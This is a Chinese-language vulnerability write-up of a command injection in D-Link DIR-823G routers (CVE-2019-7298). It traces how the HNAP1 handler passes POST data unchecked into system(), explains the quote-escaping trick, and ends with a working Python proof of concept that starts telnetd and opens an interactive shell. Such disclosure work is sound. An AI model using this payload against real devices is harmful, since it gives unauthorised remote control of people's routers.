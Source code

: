 ## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。在HNAP API函数处理请求之前，system函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动init进程，init进程的启动时根据/etc/inittab这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中sysinit代表系统的初始化，只有系统开机或重新启动的时候，后面对应的process才会执行一次。

```
::sysinit:/etc/init.d/rcS
```

在rcS中，先执行一些列mkdir和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead的websUrlHandlerDefine函数允许用户自定义不同url的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0);
```

以上代表/HNAP1的请求交给websHNAPHandler函数处理，/gofrom的请求交给websFormHandler函数处理，/cgi-bin的请求交websCgiHandler函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL.
```

先了解/HNAP1请求的处理函数，在goahead中查找“HNAP1”字符串并通过xref定位处理函数sub_42383c

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/8-20201014111446453.png)

`sub_4238c`主要通过遍历全局的函数表来处理HNAP1接受的不同请求。function_list中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在function_list中找到函数名与请求相同的字符串时，向/var/hnaplog中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是post的报文，在运行过程中查看/var/hnaplog能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过snprintf输入字符且未做检查，之后直接system执行，存在命令注入漏洞。如果post请求是'`/bin/telnetd`'，就会先开启telnet服务器，再讲字符写入hnaplog。

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/9-20201014111446456.png)

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/10-20201014111446458.png)

另外需要注意，post的数据要加上引号，因为echo '%s' > /var/hnaplog中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog
```

post中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP='192.168.0.1'
command ="'`/bin/telnetd`'"
length = len(command)

headers = requests.utils.default_headers()
headers["Content-Length"]=str(length)
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/Login"'#此处的Login可以替换为任何在function_list中的函数名
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"


payload = command
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive()
```